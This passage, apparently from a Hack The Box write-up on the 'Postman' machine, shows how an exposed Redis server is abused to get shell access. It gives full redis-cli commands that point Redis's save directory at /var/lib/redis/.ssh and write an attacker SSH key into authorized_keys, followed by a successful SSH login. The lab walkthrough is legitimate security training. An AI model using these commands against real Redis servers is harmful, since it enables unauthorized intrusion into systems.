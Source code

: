 Finding the correct directory took a while. I installed redis to see what is the standard installation path. On Kali Linux, the apt installation creates the following user:

```
redis:x:133:145::/var/lib/redis:/usr/sbin/nologin
```

I verified that the directory exists on the box:

```
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis"
OK
```

On a normal installation we would not be able to do anything with this user since the login shell is set to `/usr/sbin/nologin` but on Postman the login shell is set to `/bin/bash`. Here are the steps I followed to put my SSH key on the server.

Step 1. Generate blob to be injected

```
root@kali:~/htb/postman# echo -e '\n\n' >> blob.txt
root@kali:~/htb/postman# cat ~/.ssh/id_rsa.pub >> blob.txt
root@kali:~/htb/postman# echo -e '\n\n' >> blob.txt
```

Step 2. Update the Redis configuration

```
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
```

Step 3. Do the attack

```
root@kali:~/htb/postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/htb/postman# cat blob.txt | redis-cli -h 10.10.10.160 -x set sshblob
OK
root@kali:~/htb/postman# redis-cli -h 10.10.10.160 save
OK
```

And we can now log in to the box with SSH:

```
root@kali:~/htb/postman# ssh redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$
```
